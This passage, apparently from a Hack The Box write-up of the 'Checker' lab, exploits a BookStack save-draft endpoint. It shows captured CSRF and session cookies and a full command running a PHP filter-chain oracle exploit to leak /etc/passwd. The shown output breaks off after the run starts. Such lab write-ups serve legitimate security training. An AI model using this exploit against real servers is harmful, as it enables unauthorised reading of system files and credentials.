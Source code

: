 ![](images/Pasted%20image%2020250728135428.png)
From the request, we have -
```
The URL endpoint: http://checker.htb/ajax/page/8/save-draft

X-CSRF-TOKEN: X-CSRF-TOKEN: 5dcVWGgliR7TGbVjztGwah5FDaXX4IaYRSwmXRXA

bookstack_session:
bookstack_session=eyJpdiI6IlRCeXA5YXBvbE0wdkVlb01uU0ZPWVE9PSIsInZhbHVlIjoiU0g1cGhLY0hhQkVzbEh1SGg1amt3dzY0NTg4STNweVJmZW1EUm5DV0k4ZGp3YmIxZmphSlE0QjVMSWZyNkJhWWxhOHEvZk5zbzR1VU40cnB5RCs5RzM5NWQ3TWpydHRRWllRTWNRYWYxMnJQTm1lM3lZN2JOWU5RZUhmUjBoV3giLCJtYWMiOiI3MzIyMmE3YWI5NTE2ODc2OTkyNTA4MDI2NmQ3OWM0YzllZmRlNDhhMGZmZTI4MTJhZDE3MTYyOTA1ZWJiYmRkIiwidGFnIjoiIn0%3D; 
```

Let's try to make the exploit script
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Checker/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py \
--target 'http://checker.htb/ajax/page/8/save-draft' \
--file '/etc/passwd' \
--verb PUT \
--parameter html \
--proxy http://127.0.0.1:8080 \
--log loot.txt \
--headers '{"X-CSRF-TOKEN": "5dcVWGgliR7TGbVjztGwah5FDaXX4IaYRSwmXRXA", "Cookie": "XSRF-TOKEN=eyJpdiI6IjEzNVNHMWF3NEVtU00zSDlMYkpGVnc9PSIsInZhbHVlIjoiRVFJbWZJTEtRd3ZhNno5NDA1NmdFOXVPUjhwaWRFYUdTdFVFTDZvRitOdVl0cHNpMWZlUU4zMHNpQ1ZiVDR5M0ZYZ00xQlJQYnRyRCtwUlJzR0xYbWZFL3VWN1RHWkRYZGI1TGcrVk5adXJhRHpiODN5a0tvcHE4VFROOHV6NVYiLCJtYWMiOiI5NmRkNzRmY2I2ZTNlYTFjOTU0Yzk0YWYzODc5ZWNlNmQ0ZDQ1NjE5MDYzN2EzMmIyMzYwZDdlMGY4NmFmZWYzIiwidGFnIjoiIn0%3D;bookstack_session=eyJpdiI6IlRCeXA5YXBvbE0wdkVlb01uU0ZPWVE9PSIsInZhbHVlIjoiU0g1cGhLY0hhQkVzbEh1SGg1amt3dzY0NTg4STNweVJmZW1EUm5DV0k4ZGp3YmIxZmphSlE0QjVMSWZyNkJhWWxhOHEvZk5zbzR1VU40cnB5RCs5RzM5NWQ3TWpydHRRWllRTWNRYWYxMnJQTm1lM3lZN2JOWU5RZUhmUjBoV3giLCJtYWMiOiI3MzIyMmE3YWI5NTE2ODc2OTkyNTA4MDI2NmQ3OWM0YzllZmRlNDhhMGZmZTI4MTJhZDE3MTYyOTA1ZWJiYmRkIiwidGFnIjoiIn0%3D", "Content-Type": "application/x-www-form-urlencoded"}'
[*] The following URL is targeted : http://checker.htb/ajax/page/8/save-draft
[*] The following local file is leaked : /etc/passwd
[*] Running PUT requests
```